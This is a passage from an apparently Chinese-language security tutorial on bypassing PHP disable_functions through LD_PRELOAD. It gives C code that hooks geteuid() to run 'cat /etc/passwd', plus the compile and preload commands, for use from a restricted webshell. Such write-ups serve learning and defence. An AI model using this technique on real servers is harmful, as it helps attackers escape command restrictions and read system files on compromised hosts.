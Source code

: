 
## 3. 利用环境变量 LD_PRELOAD 来绕过

- 使用条件
  - linux环境中
  - `putenv()`
  - `mail` or `error_log`
  - 存在可写的目录, 需要上传 .so 文件

当 disable_functions 禁用了命令执行函数，如`shell_exec`,`system`等等。webshell 无法执行系统命令时，可以通过环境变量 LD_PRELOAD 劫持系统函数。

1. 我们先做个小实验看看 LD_PRELOAD 能否直接使用

```c
touch test.c
vim test.c

#include <unistd.h>
#include <sys/types.h>

uid_t geteuid(void){
        system("cat /etc/passwd");
}
```
2. 生成动态链接库

`gcc --share -fPIC test.c -o test.so`

3. 使用 LD_PRELOAD 加载刚生成的 `test.so`，再执行 id 命令看看效果

`LD_PRELOAD=./test.so id`

![](img/2.png)
